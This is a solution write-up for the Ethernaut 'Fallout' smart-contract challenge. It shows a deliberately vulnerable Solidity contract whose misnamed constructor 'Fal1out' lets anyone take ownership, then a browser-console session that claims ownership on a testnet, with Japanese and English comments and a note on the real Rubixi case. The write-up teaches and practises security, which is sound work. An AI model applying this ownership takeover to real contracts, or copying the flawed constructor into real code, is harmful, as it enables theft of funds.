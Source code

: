 2.FallOut
Claim ownership of the contract below to complete this level.


// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}

await contract.owner()
'0x0000000000000000000000000000000000000000'
player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

contract.abi
(6) [{…}, {…}, {…}, {…}, {…}, {…}]
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。

0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 6
[[Prototype]]: Array(0)

//contract作成。everybody is gonna be owner! 

contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c

await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'


That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.